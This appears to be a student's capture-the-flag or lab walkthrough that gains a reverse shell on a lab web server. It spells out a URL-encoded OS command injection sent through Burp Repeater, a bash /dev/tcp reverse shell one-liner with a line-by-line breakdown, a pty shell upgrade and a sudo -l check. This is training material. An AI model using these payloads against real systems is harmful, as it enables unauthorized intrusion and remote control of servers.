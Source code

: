 ## Netcat listener
Create a listener on your Kali Machine.
```
nc -lvnp 1337
```


## Burp Suite OS Command Injection
- Visit http://10.200.X.12/. You can get the IP from the VPN connection request.
	![[Reverse Shell-20240704140243868.webp]]
- Enter the following credentials:
	- User: laura.wood%40corp.thereserve.loc
	- Password: Password1@
- Click on the "Submit" button and send it to Proxy.
	![[Reverse Shell-20240704140643435.webp]]
- Click on submit.
- Send the request to "Repeater".
- Add the following code to the request: 
```
	+%26%26+bash+-i+>%26+/dev/tcp/<KALI MACHINE IP>/1337+0>%261
```

![[Reverse Shell-20240704142326775.webp]]

- Send the request.
- You'll get a reverse shell on your netccat listener.
	listening on [any] 1337 ...
	connect to [10.50.115.9] from (UNKNOWN) [10.200.118.12] 56484
	bash: cannot set terminal process group (982): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@ip-10-200-118-12:/var/www/html$


### Shell syntax

```
&& bash -i >& /dev/tcp/<KALI MACHINE IP>/1337 0>&1
```

1. `&&`: This is the logical AND operator in shell scripting. It is used to execute the following command (`bash -i ...`) only if the preceding command (`hacker`) succeeds without errors.
    
2. `bash -i`: This is a command to launch a new instance of the Bash shell (`bash`) with the `-i` option, which stands for interactive mode. Interactive mode allows for interactive input and output, typically used when interacting with a terminal.
    
3. `>& /dev/tcp/10.50.115.9/1337`: This portion of the command redirects both standard output (stdout) and standard error (stderr) to a TCP connection established to the specified IP address (`10.50.115.9`) and port (`1337`). This syntax is often used for network communication in shell scripting.
    
4. `0>&1`: This part of the command redirects standard input (stdin) to the same location as standard output (stdout). This can be useful for ensuring that input from the keyboard is also sent over the network connection.
    

In summary, the command appears to be attempting to establish a network connection to the specified IP address and port while also launching an interactive Bash shell.

### Sanitize the shell
To display the current user's sudo privileges. It shows which commands the user is allowed to run with sudo and any restrictions that may apply.
**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctrl + Z

stty raw -echo;fg
```

## sudoers


```
www-data@ip-10-200-113-12:/var/www/html$ sudo -l

```

User www-data may run the following commands on ip-10-200-113-12:  
(root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, **/bin/cp**

Next step: [[Connect via SSH (10.200.X.12)]]